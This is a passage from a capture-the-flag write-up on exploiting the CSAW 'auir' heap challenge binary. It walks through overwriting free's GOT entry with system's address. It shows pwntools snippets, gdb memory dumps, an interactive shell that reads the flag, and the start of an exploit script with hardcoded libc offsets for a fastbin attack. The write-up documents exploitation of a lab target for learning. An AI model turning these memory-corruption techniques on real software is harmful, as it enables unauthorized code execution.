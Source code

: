 
Brilliant! Let's pwn this binary once and for all.


### _Pwning Time_

* The `edit` function receives an index as input and then picks the corresponding entry from the global array in order to overwrite its content with our desired input. I picked `free` as the victim GOT entry because it receives one argument, like `system`.

* When we're asked to de-allocate a chunk, we provide an index once again and `free` will be called (or would be called since we'll overwrite it `system`'s address) with an address from the global array as an argument.

* Since we overwrote the 1st entry with `system`'s address and the 2nd one with `sh`'s address, once de-allocation takes place and we provide `1` as the index (arrays are indexed from 0), `system` will take over control and execute whatever command is at the address which was found in the global array. There's our shell!

```python
# free => system
edit(0, 8, p64(system))
```

```makefile
gef➤  x/gx 0x0000000000605060
0x605060:   0x00007ffff71b1390
gef➤  x 0x00007ffff71b1390
0x7ffff71b1390 <__libc_system>: 0xfa86e90b74ff8548
```

Voila! `free`'s GOT entry officially points to `system`'s address! Let's bring this flag home!

```python
# call system with the 2nd entry as argument, which is binsh
free(1)
```

```
[*] Leak:        0x7fa077b3fb78
[*] Libc:        0x7fa07777b000
[*] system:      0x7fa0777c0390
[*] Switching to interactive mode
[*] BREAKING....
$ id
uid=1000(auir) gid=1000(auir) groups=1000(auir)
$ ls
auir
flag
$ cat flag
flag{W4rr10rs!_A1ur_4wa1ts_y0u!_M4rch_f0rth_and_t4k3_1t!}
```
### _Exploit_

```python
from pwn import *

'''
HOST = pwn.chal.csaw.io
PORT = 7713
PoC:  https://asciinema.org/a/IARN4KoGyVYbDai3Je3dXJM95
Flag: flag{W4rr10rs!_A1ur_4wa1ts_y0u!_M4rch_f0rth_and_t4k3_1t!}
'''

free_got = 0x605060
sys_off  = 0x45390
sh_off   = 0x18cd17
# bss pointer to use for the fastbin attack
bss      = 0x6052ed
```